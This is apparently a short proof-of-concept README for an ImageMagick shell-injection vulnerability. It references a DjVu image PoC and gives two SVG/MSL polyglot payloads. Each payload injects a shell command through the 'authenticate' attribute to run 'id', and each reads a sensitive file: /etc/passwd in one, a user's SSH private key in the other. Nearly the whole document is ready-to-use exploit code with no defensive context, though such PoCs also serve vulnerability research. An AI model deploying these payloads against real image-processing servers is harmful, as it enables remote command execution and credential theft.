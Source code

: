 # Djvu poc 

cute_id_poc.jpg = id command. 



SVG polygot file: https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html


```
<image authenticate='ff" `echo $(id)> ./0wned`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

```
<image authenticate='ff" `echo $(id)> /dev/shm/0wn3d`;"'>
  <read filename="pdf/home/thomas/.ssh/id_rsa"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```
